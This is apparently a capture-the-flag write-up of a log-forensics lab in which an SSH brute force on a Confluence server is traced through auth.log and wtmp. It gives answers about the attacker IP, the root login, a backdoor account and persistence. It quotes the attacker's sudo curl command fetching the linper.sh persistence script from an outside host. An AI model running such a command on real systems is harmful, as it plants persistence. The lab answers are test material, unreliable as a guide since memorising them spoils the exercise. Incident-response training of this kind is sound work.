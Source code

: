# Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

Log files: [Brutus.zip](https://github.com/user-attachments/files/16104805/Brutus.zip) pass: hacktheblue

# Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response.

# Response
### Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?
It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

### The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?
Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

### Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?
2024-03-06 06:32:45

### SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
37
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/c543c85a-d4a6-465d-bbcc-c7d64c4478bc)

### The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
cyberjunkie.
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/1531bc2f-6cad-4d58-af23-677b6c24ce55)

### What is the MITRE ATT&CK sub-technique ID used for persistence?
[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/78b15345-d619-4edb-b589-fb27cd95a572)

### How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)
Total time of the session is 06:32:45 - 06:37:24, so, 279 seconds

### The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/2265c87d-7012-445c-a50f-c3169a048d31)
